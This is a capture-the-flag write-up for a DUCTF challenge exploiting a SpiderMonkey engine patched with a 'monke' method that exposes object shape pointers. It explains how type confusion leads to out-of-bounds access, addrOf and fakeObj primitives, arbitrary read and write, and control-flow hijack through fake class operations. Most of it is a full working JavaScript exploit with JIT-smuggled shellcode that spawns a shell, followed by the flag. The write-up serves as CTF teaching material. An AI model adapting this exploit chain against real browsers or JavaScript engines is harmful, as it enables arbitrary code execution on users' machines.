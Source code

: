 # return to monke

## Challenge

The Firefox "SpiderMonkey" JavaScript engine, with a patch that adds a `monke` method to objects.

## Solution

The new `monke` method allows us to read and write the shape pointer of an object.
This allows for trivial type confusion.

By changing the shape of an array to the shape of an object, we can use the object properties to overwrite the length of the array.
We can then change the shape back to an array, allowing us to use the array as normal, but with an increased length, which we can use to read and write out-of-bounds.

We can use this out-of-bound access to create the addrOf primitive by writing the pointer of an object in one array, then reading the pointer to an object as a float from an overlapping array.
We can use this out-of-bound access to create the fakeObj primitive by writing the pointer to a fake object as a float in one array, then reading the value as an object from an overlapping array.

We can also use the out-of-bounds access to overwrite the backing store of a typed array, allowing us to read and write to arbitrary addresses.

This can be used to control RIP by overwriting the entrypoint of a JITed function, or overwriting the class operations of an object.
The exploit script below uses the latter approach.

Shellcode can be smuggled into executable memory as float constants in a JITed function.

By changing RIP to point at these constants, we can execute arbitrary shellcode and spawn a shell.

## Exploit

```js
const buffer = new ArrayBuffer(8);
const floatarray = new Float64Array(buffer);
const biguint64array = new BigUint64Array(buffer);

function ftoi(x) {
	floatarray[0] = x;
	return biguint64array[0];
}

function itof(x) {
	biguint64array[0] = x;
	return floatarray[0];
}

function jitme() {
	sc_marker = 5.40900888e-315;
	SC1 = 7.340387646374746e+223;
	SC2 = -5.632314578774827e+190;
	SC3 = 2.820972646004203e-134;
	SC4 = 1.7997858657482317e+204;
	SC5 = -6.038714811533287e-264;
	SC6 = 2.6348604761052688e-284;
}

for (let i = 0; i < 100000; i++) {
	jitme();
}

obj = {a: 1.1, b: 2.2};
oob_arr = new BigUint64Array(1);
addrOf_fakeObj_arr = new Array(1);
rwx_arr = new BigUint64Array(1);
rwx_uint8 = new Uint8Array(1);
oob_arr[0] = 0x41414141n;

console.log("length: ", oob_arr.length);

obj_shape = obj.monke();
arr_shape = oob_arr.monke();

oob_arr.monke(obj_shape);

oob_arr.b = itof(0xffn);

oob_arr.monke(arr_shape);

console.log("length: ", oob_arr.length);

function addrOf(x) {
	addrOf_fakeObj_arr[0] = x;
	return oob_arr[10] & 0x7fffffffffffn;
}

function fakeObj(x) {
	oob_arr[10] = x;
	return addrOf_fakeObj_arr[0];
}

function arb_read(addr) {
	oob_arr[19] = addr;
	return rwx_arr[0];
}

function arb_write(addr, value) {
	oob_arr[19] = addr;
	rwx_arr[0] = value;
}

function arb_read_len(addr, len) {
	oob_arr[29] = BigInt(len);
	oob_arr[31] = addr;
	return rwx_uint8;
}

console.log("oob_arr: ", addrOf(oob_arr).toString(16));

code = arb_read(arb_read(addrOf(jitme) + 0x28n));

sc_start = -1;
for (let i = 0; i < 1000; i++) {
	sc_start = code + BigInt(8 * i);
	check = arb_read(sc_start);
	if (check == 0x41414141n) {
		sc_start += 0x8n;
		break;
	}
}

console.log("stage1: ", sc_start.toString(16));

target = new Uint8Array(1);
target_shape = arb_read(addrOf(target));
target_group = arb_read(target_shape);
target_class = arb_read(target_group);

fake_group = new Uint8Array(0x40);
fake_group.set(arb_read_len(target_group, fake_group.length));

fake_class = new Uint8Array(0x40);
fake_class.set(arb_read_len(target_class, fake_class.length));

fake_cOps = new Uint8Array(0x40);

arb_write(addrOf(fake_cOps) + 0x38n, sc_start);
arb_write(addrOf(fake_class) + 0x38n + 0x10n, addrOf(fake_cOps) + 0x38n);
arb_write(addrOf(fake_group) + 0x38n, addrOf(fake_class) + 0x38n);
arb_write(target_shape, addrOf(fake_group) + 0x38n);

console.log("target: " ,addrOf(target).toString(16));

target.a = 1;
```

## Flag

```
DUCTF{y0uVe_r3tuRn3d_to_m0nkE_nOW_reJ3ct_hUm4Nity_593767de9bb04d4520804ef68fbacd2a}
```
